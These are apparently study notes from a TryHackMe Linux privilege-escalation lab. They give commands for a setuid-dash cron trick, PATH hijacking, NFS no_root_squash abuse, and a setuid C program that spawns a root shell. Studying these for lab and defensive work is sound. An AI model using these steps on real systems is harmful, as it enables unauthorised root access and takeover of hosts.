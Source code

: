 quick and dirty root:
added script to be run by cron by root: `chmod u+s /usr/bin/dash`
then run after the setuid bit is flipped with `/usr/bin/dash -p`
Root!

## Path Variable Abuse
> Quick pull of writable: `find / -writable 2>/dev/null | cut -d "/" -f 2,3 | grep -v proc | sort -u`
Find a file that gets called relatively, add own script with same name, add folder to beginning of path.

## nfs
`cat /etc/exports` shows settings for nfs share configuration.
> Key is finding a no_root_squash setting

`showmount -e 10.10.133.183` - enumerates mountable NFS
`mount -o rw 10.10.133.183:/backups /tmp/myfolderdestination` - mounts the "backups" share from the nfs server to the /tmp/myfolderdestination

> Note: install `apt-file`, if you have a command that isn't found and you don't see it installable through apt-get install, then use apt-file to search and show the packages that have that command.

> For `showmount`, I had a "no command foudn" issue, and `sudo apt-get install showmount` doesn't find anything. I installed `apt-file` (`sudo apt-get install apt-file`, and then `sudo apt-file update`), and the running `apt-file search showmount` shows me that the `nfs-common` is the package that contains `showmount`, so I can install it with `sudo apt-get install nfs-common` and now I have access to using the `showmount` command.

![Showmount Results](/images\tryhackme\linuxprivesc\showmount_search.jpg)

### SetUid command script in C
`doAsRoot.c`
```
int main()
{
  setgid(0);
  setuid(0);
  system("/bin/bash");
  return 0;
}
```
> Replace `/bin/bash` with other command or path to suit the need

`gcc doAsRoot.c -o doAsRoot -w` - Compile with gcc
`chmod +s doAsRoot` - flip the setuid bit

